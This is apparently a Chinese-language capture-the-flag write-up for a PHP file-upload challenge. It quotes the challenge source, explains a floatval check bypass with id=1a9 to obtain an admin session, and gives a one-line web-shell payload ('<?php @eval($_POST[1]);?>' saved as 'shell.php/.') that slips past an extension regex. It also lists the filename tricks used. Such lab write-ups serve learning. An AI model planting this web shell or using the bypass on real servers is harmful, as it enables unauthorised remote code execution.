










题目描述：
工控云管理系统项目管理页面解析漏洞
题目解题：

熟悉的页面，我们还是点击测试，发现只有项目管理可以点击

页面如图所示，这里左下角有个view-source，我们审一下源码
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
48
49
50
51
52
53
54
55
56
57
58
59
60
61
| <?php
session_start();
if (!isset($_GET[page])) {
show_source(__FILE__);
die();
}
if (isset($_GET[page]) && $_GET[page] != 'index.php') {
include('flag.php');
}else {
header('Location: ?page=flag.php');
}
?>
<form action="#" method="get">
page : <input type="text" name="page" value="">
id : <input type="text" name="id" value="">
<input type="submit" name="submit" value="submit">
</form>
<br />
<a href="index.phps">view-source</a>
<?php
if ($_SESSION['admin']) {
$con = $_POST['con'];
$file = $_POST['file'];
$filename = "backup/".$file;
if(preg_match('/.+\.ph(p[3457]?|t|tml)$/i', $filename)){
die("Bad file extension");
}else{
chdir('uploaded');
$f = fopen($filename, 'w');
fwrite($f, $con);
fclose($f);
}
}
?>
<?php
if (isset($_GET[id]) && floatval($_GET[id]) !== '1' && substr($_GET[id], -1) === '9') {
include 'config.php';
$id = mysql_real_escape_string($_GET[id]);
$sql="select * from cetc007.user where id='$id'";
$result = mysql_query($sql);
$result = mysql_fetch_object($result);
} else {
$result = False;
die();
}
if(!$result)die("<br >something wae wrong ! <br>");
if($result){
echo "id: ".$result->id."</br>";
echo "name:".$result->user."</br>";
$_SESSION['admin'] = True;
}
?>
|
由$_SESSION[‘admin’] = True;可知，只有查询id时对应有结果，那就会设置admin的session对话，这是我们文件上传的突破点，那一般来说id应该就是1，此处你结合代码floatval($_GET[id]) !== '1'也能知道，既然对1有所限制，那我们应该就是要查询id=1的内容
floatval — 获取变量的浮点值
1
| float floatval( mixed $var)
|
返回变量 var 的 float 数值。
var 可以是任何标量类型。你不能将 floatval() 用于数组或对象。
1
2
3
4
5
| <?php
$var = '122.34343The';
$float_value_of_var = floatval ($var);
print $float_value_of_var;
?>
|
因此可以将id赋值为1a9

页面有所回显，此刻我们便可以进行文件上传，上传时先来看看如何绕过正则，结合题目信息，这里说是有文件解析漏洞，那我们应当找一下该项目是由哪个中间件写的

这就好办了。
Apache解析漏洞
原理： Apache 解析文件的规则是从右到左开始判断解析，如果后缀名为不可识别文件解析，就再往左判断。比如test.php.a.b的“.a”和“.b”这两种后缀是apache不能识别解析，apache就会把test.php.a.b解析成test.php。

上传成功以后，页面并不会有任何回显，需要输入$con的上传网址查看自己的文件

但似乎这里并没有被当做php解析，蚁剑连接不上去，看了wp发现payload如下
1
| con=<?php @eval($_POST[1]);?>&file=shell.php/.
|

这回成功解析为php，蚁剑也成功连接

拿到flag

总结
php的解释器可以解析：php、php3、php4、php5、php7、phtml、pht、phs、shtml、pwml，不过本题都对此过滤了。

也有大佬根据apache2.x的解析漏洞，补充了不可识别的文件格式~例如1.php.1（有大佬以截断形式输入，1.php/.，上传后显示为1.php）
1
2
3
| 绕过方式`../filename.php/.`或者`filename.php/.`
绕过原理:文件名中不允许带有/ 因为/表示目录的分割符 在php中，如果保存的文件中含有/ 会自动省略/后面的内容，/后面的.是为了达到匹配最后一个.的效果
|
参考文章：
wp参考一
wp参考二
wp参考三